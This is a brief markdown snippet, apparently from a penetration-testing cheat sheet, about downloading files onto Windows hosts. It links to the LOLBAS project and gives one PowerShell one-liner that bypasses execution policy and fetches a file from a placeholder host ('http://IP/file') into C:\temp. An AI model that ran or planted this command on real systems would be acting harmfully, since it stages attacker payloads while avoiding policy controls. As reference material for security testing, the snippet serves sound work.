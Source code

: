 # Download files

## Windows 

- https://lolbas-project.github.io/#

### Powershell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://IP/file','C:\temp\file')"
```


